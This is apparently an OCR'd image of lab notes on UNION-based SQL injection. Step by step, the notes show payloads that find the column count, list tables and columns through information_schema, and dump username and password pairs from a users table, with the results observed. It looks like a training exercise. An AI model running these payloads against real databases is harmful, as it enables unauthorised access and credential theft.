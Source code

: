     
    # find the number of columns 
    
    UNION SELECT NULL-- -    => ERROR!
    UNION SELECT NULL,NULL-- -  => no ERROR , so this DB.tables have 2 column 
    
    -- number of column = 2 
    
    
    # find the table name for credentials: 
    
    UNION SELECT NULL,table_name FROM information_schema.tables-- -
    
    -- and the name of table which I want is => users_kpagwb
    
    
    # find the columns of tables: 
    
    
    UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users_kpagwb'-- -
    
    columns : username_vbivmx , password_ridwjl
    
    
    # Final query : 
    
    
    UNION SELECT username_vbivmx, password_ridwjl FROM users_kpagwb-- -
    
    
    UNION SELECT username_vbivmx, username_vbivmx||':'||password_ridwjl FROM users_kpagwb-- -
